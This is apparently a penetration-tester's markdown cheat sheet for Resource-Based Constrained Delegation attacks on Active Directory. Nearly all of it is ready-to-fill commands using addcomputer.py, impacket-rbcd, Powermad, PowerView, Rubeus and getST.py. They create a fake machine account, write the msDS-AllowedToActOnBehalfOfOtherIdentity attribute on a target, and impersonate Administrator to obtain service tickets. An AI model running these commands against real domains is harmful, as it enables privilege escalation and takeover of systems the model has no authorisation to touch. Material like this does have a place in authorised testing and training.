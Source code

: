 # Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - impacket-rbcd -delegate-to 'TARGET$' -dc-ip 'DC' -action 'read' 'domain'/'USER':'PASSWORD' (Try to read the attribute)

 - impacket-rbcd -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn host/DC_FQDN 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator -dc-ip DC_IP (Get TGT ticket)

#### 4) Powermad

 - import-module powermad 

 - New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose (Create a new computer object)

 - Get-DomainComputer fake01 (Check our newly created computer and get its SID)

### Create a new raw security descriptor for the FAKE01 computer principal

 - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"

 - $SDBytes = New-Object byte[] ($SD.BinaryLength)

 - $SD.GetBinaryForm($SDBytes, 0)

### Apply the security descriptor bytes to the target machine

 - Get-DomainComputer TARGET_COMPUTER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

 - (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl (Test if the security descriptor assigned to target computer in msds-allowedtoactonbehalfofotheridentity attribute refers to the fake01$ machine. If yes, we shall see the SID of our created computer)

### Then use Rubeus or getST to impersonate an account on our target computer of our choice

